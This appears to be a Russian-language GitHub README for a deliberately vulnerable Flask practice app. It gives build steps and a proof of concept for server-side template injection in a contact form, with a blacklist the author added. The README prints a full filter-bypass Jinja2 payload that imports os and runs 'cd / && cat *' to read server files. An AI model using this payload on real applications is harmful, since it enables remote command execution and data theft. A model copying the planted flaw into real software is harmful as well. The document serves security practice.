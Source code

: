 # vuln-app
#Уязвимая версия приложения

### Инструкция по сборке и запуску приложения

> - git clone "текущий репозиторий"
> - cd app
> - python __init__.py
> - flask приложение будет запущено по адресу http://127.0.0.1:8089

![image](https://github.com/medarov411/vuln-app/assets/60567375/302c807a-5503-411e-a291-bbe552f247ec)



### Proof of Concept

SSTI:

> url - http://127.0.0.1:8089/contact. Контактная форма, с одним полем ввода.

> Настроил блеклист для ssti, чтоб пейлоад был поинтересней. blacklist = [".","[","]","_","join","init","flag"]

> Конечный пейлоад: {{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cd / && cat *')|attr('read')()}}


### Дополнительные комментарии
> От себя решил добавить SSTI с фильтрацией, все таки это flask. Не добавить в него ssti, было бы неуважительно :)


